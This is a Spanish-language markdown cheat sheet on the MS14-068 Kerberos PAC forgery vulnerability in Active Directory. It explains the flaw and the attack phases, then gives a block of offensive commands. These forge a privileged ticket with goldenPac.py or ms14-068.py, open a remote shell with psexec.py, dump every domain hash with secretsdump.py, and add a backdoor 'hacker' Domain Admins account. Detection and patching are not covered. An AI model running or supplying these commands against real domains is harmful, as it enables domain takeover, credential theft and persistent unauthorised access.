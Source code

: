 # 🛑 MS14-068 en Active Directory

---

## 📝 ¿Qué es MS14-068?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| MS14-068 (CVE-2014-6324) es una vulnerabilidad crítica en el protocolo Kerberos de Windows que permite a cualquier usuario del dominio obtener privilegios de administrador de dominio mediante la falsificación de tickets Kerberos con grupos administrativos. |
| **Requisito** | El atacante necesita credenciales válidas de cualquier usuario del dominio y conectividad de red al KDC (puerto 88). No requiere privilegios especiales iniciales. |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase             | Acción                                                                                         |
|------------------|------------------------------------------------------------------------------------------------|
| **Autenticación**| El atacante se autentica con credenciales de usuario válidas contra el KDC.                   |
| **Falsificación**| Crea un ticket Kerberos (PAC) falsificado agregando grupos administrativos (Domain Admins, Enterprise Admins). |
| **Validación**   | El KDC acepta el ticket falsificado debido a un fallo en la validación de la firma digital del PAC. |
| **Escalada**     | Utiliza el ticket privilegiado para acceder a recursos como administrador de dominio.         |
| **Persistencia** | Puede crear nuevas cuentas administrativas, volcar hashes o establecer backdoors permanentes.  |

---

## 💻 Ejemplo práctico ofensivo (comandos reales)

```bash
# Obtener información del usuario actual y dominio
whoami /user
echo %USERDOMAIN%

# Generar ticket falsificado con goldenPac.py (Impacket)
python3 goldenPac.py DOMAIN/user:password@target.domain.com

# Alternativa con exploit específico MS14-068
python3 ms14-068.py -u user@domain.com -p password -s S-1-5-21-DOMAIN-SID-1001 -d DC_IP

# Una vez obtenido el ticket privilegiado, usarlo para psexec
psexec.py -k -no-pass DOMAIN/administrator@target.domain.com

# Volcar todos los hashes del dominio con secretsdump
secretsdump.py -k -no-pass DOMAIN/administrator@DC_IP

# Crear nueva cuenta de administrador para persistencia
net user hacker Password123! /add /domain
net group "Domain Admins" hacker /add /domain
```
